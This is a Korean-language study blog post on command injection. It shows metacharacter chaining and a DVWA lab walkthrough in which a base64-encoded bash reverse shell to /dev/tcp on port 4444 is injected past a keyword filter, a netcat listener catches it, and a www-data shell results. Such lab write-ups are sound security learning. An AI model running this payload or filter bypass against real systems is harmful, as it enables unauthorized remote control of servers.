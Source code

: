 ```yaml
---
layout: post
title: "명령어 인젝션 공부"
date: 2025-09-03 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

#### ***키워드 필터링 우회 (Base64 인코딩)***

`cat`, `ls`, `bash` 등 특정 명령어가 서버에서 차단될 경우,  
공격자는 명령어를 **Base64로 인코딩**해 필터를 우회할 수 있다.  
서버 측에서 이를 디코딩 후 실행하면, 차단되지 않은 상태로 명령어가 수행된다.

#### ***공격 흐름 (5단계)***

***1. 공격자: 리버스 셸 페이로드 인코딩***  
로컬 머신에서 실행할 명령어를 Base64로 인코딩한다.

```bash
$ echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuOS4yMDAuMTIvNDQ0NCAwPiYx
```

>  인코딩된 문자열(`YmFzaC...`)을 복사해 둔다.

***2. 공격자: 리스너 준비***
Netcat으로 4444 포트에서 연결을 기다린다.

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```

***3. 공격: DVWA에 페이로드 삽입***
DVWA의 `Command Injection` 입력란에 다음을 전달한다.

```text
127.0.0.1; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuOS4yMDAuMTIvNDQ0NCAwPiYx | base64 -d | bash
```

- `127.0.0.1`은 원래 ping 명령의 대상 (정상 요청처럼 위장)  
- `;` 이후가 실제 공격 페이로드  
- `echo ... | base64 -d | bash` → 인코딩된 명령어를 디코딩 후 실행

***4. 서버: 명령어 실행***
서버는 내부적으로 다음을 수행한다:

```bash
# 1. echo로 인코딩 문자열 출력
# 2. base64 -d로 디코딩 → "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1"
# 3. 그 결과를 bash에 파이프 → 리버스 셸 연결 시도
```

***5. 공격 성공: 리버스 셸 획득***  
공격자의 Netcat 터미널에 연결이 수립되고, 쉘 접근이 가능해진다.

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.9.200.12] from (UNKNOWN) [192.9.200.11] 38912
www-data@dvwa:/var/www/html$
www-data@dvwa:/var/www/html$ whoami
www-data
```

>  이 시점에서 공격자는 서버의 `www-data` 권한으로 명령어를 자유롭게 실행할 수 있다.

---

### 이 방식이 사용되는 이유

- ***필터링 회피***: `bash`, `/dev/tcp` 같은 키워드가 직접 전달되지 않음  
- ***유연성***: 어떤 명령어든 Base64로 감싸 전달 가능  
- ***실전 적용***: `A01:2021` 보고서에서도 동일 기법으로 서버 제어권 확보

<hr class="short-rule">